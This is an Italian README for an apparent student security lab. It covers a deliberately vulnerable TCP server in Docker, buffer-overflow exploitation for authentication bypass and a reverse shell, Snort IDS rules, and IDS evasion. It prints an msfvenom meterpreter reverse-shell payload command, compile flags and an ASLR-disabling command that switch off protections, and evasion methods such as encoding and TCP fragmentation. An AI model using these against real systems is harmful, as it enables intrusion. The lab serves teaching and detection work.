



# Buffer_Overflow_1

Un attacco di buffer overflow in un contesto di reti, rilevabile tramite un IDS basato su Snort

# Exploit Buffer Overflow & Analisi IDS

## Panoramica

Questo progetto consiste nel realizzare uno scenario di attacco ad un server TCP con una **vulnerabilità di buffer overflow** in un ambiente containerizzato ed isoltato tramite Docker. L'obiettivo è comprendere il funzionamento di questo tipo di attacco, sviluppare un exploit funzionante per ottenere **una shell remota** sulla macchina target dell'attacco e testare un **Intrusion Detection System (IDS)** per identificare l'attacco monitorando il traffico di rete e successivamente bypassare il suo rilevamento.

Il progetto include:

- Un **server TCP vulnerabile** scritto in C implementato e compilato al fine di renderlo vulnerabile a questo tipo di attacco.
- Un serie di **exploit** che consentono di sfruttale la vulnerabilità, bypassare il controllo delle credenzialio ottenere una **reverse shell**.
- Un sistema IDS realizzato con Snort con alcune **regole IDS** per il rilevamento dell'attacco.
- **Tecniche di evasione IDS** per dimostrare i limiti dei sistemi rule-based.
  Lo scenario è stato realizzato in un ambiente containerizzato in cui le entità interagiscono secondo lo schema di rete di seguito riportato:
  

---

## Configurazione del Progetto

E' possibile avviare lo scenario lanciando lo script predisposto start_env.sh con privilegi di superuser, successivamente sarà necessario accedere al container del server e lanciare il server con uno script di avvio (start_server.sh) e operare l'esecuzione degli exploit collegandosi tramite shell interattiva alla container del client attaccante.

### Descrizione dello scenario

Il server contiene una vulnerabilità di buffer overflow realizzata tramite l'utilizzo della funzione strcpy() della libreria standard del linguaggio C, è compilato disabilitando le protezioni di sicurezza per facilitare l'exploit:

```bash
gcc -g -m32 -no-pie -fno-stack-protector -z execstack -Wl,-z,norelro -o server_vuln server_vuln.c
```

La sua implementazione è consultabile nel file server/server_vuln.c

Al fine di consentire l'attacco sarà inoltre necessario disabilitare i meccanismi di sicurezza del kernel atti a prevenire questo tipo di attacco, vale a dire l'ASLR:

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

Collegandosi al server lo stesso richiederà di inserire le credenziali di accesso al sistema, inserendo le credenziali corrette il sistema risponde con un messaggio di avvenuta autenticazione e restituisce una ASCII Art.

Il client attaccante può testare il servizio inviando dapprima un input di elevate dimensioni utilizzando python da riga di comando:

```bash
python -c "print 'A'\*3000 | nc vulnerable_server 4444"
```

in questo modo, se il server non risponde e non fornisce risposta, vorrà dire che è crashato, questo non solo si configura come un attacco di Denial-of-Service, ma risulta essere un chiaro indizio sulla possibilità di un mancato controllo dell'input inviato dall'utente che espone il server ad una vulnerabilita di Buffer Overflow.

Procedendo in maniera incrementale, però è possibile sfruttare la vulnerabilità di buffer overflow e fornendo un input della giusta dimensione di potrà sovrascrivere il parametro di ritorno della funzione di autenticazione con un valore diverso da 0 e superare la verifica delle credenziali pur non conoscendole. Questo attacco è stato implementato ed è consultabile nel file **exploit_auth_result.py**.

Al fine di portare a termine un attacco più strutturato è necessario calcolare l'offset dell'input dopo il quale viene sovrascritto l' **Extended Instruction Pointer**, cella di memoria che contiene l'indirizzo della funzione chiamante per restituirgli il controllo.
Per far ciò è stato utilizzato il debugger gdb e gli strumenti del **Metasploit Framework (msf-pattern_create e msf-pattern_offset)** per ottenere questa informazione.
Successivamente è stato predisposto un payload contenenete codice da iniettare per l'apertura di una reverse TCP shell sulla macchina target verso la macchina attaccante attraverso il tool msfvenom del Framework Metasploit tramite il comando:

```bash
msfvenom −p linux/x86/meterpreter/reverse_tcp LPORT=5555 LHOST=172.25.0.20 PrependSetuid=true −f python
```

lo stesso è stato concatenato a del padding per riempire lo stack fino all'EIP, un indirizzo di memoria per sovrascrivere l'EIP con l'idirizzo di uan cella contenente il nostro codice iniettato, una serie di NOP slide instruction e l'effettivo payload generato. Lanciando l'exploit e facendo si che il client attacante si metta in ascolto sulla porta per specificata otterremo una shell remota della macchina target ormai compromessa.


## Configurazione IDS e Rilevamento dell'Attacco

Il sistema di rilevamento dell'attacco è stato realizzato con **Snort**, configurato per monitorare il traffico tra client e server con delle regole custom per il rilevamento di possibili attacchi sulla nostra rete interna. Sono state definite regole per rilevare l'attacco di buffer overflow analizzando pattern caratteristici nel payload inviato dall'attaccante.

### Regole IDS per il Rilevamento

Di seguito sono riportate le regole implementate in Snort per identificare il tentativo di exploit ed eventuali successive contromisure da parte dell'attaccante, definendo un escalation di tecniche di attacco e contromisure che sono state implementate ed analizzate nel presente elaborato.

#### Rilevamento di Sequenze Ripetute (Padding Overflow)

```bash
alert tcp any any -> 172.25.0.10 4444 (msg:"Possible Exploit Attempt - Buffer Overflow";
    pcre:"/(.)\1{5,}/"; flow:to_server,established; sid:1000001; rev:1;)
```

##### Contromisura

La regola tuttavia può generare falsi positivi ed è facilmente bypassabile con sequenze casuali di caratteri per il padding.

#### Rilevamento di Firme associate all'esecuzione di /bin/shell (Shellcode Signature)

```bash
alert tcp any any -> 172.25.0.10 4444 (msg:"Possible Exploit Attempt - Buffer Overflow (Shellcode Signature)"; content:"|b8 01 00 00 00 bb 01 00 00 00 cd 80|"; flow:to_server,established; classtype:attempted-admin; sid:1000003; rev:1;)
```

##### Contromisura

Utilizzando l'encoding Shitaka Ga Nai offerto da msfvenom possiamo facilmente bypassare il controllo

#### Rilevamento di Firme associate all'decoder Shitaka Ga Nai (Shellcode Signature)

```bash
alert tcp any any -> 172.25.0.10 4444 (msg:"Possible Exploit Attempt - Buffer Overflow (Shikata Ga Nai - Shellcode Signature)"; content:"|d9 74 24 f4|"; flow:to_server,established; classtype:attempted-admin; sid:1000004; rev:1;)
```

##### Contromisura

Utilizzando la frammentazione TCP possiamo impedire all'ids, che di default verifica la presenza di firme associate alle regole nel singolo pacchetto, per frammentare il payload e bypassare il controllo

#### Configurazione di Snort per consentire all'IDS di ricostruire i flussi TCP

Configurazione del file snort.conf per abilitare il preprocessor stream5_tcp per analizzare il contenuto inviato nel flusso TCP ricostruendo i frammenti inviati.
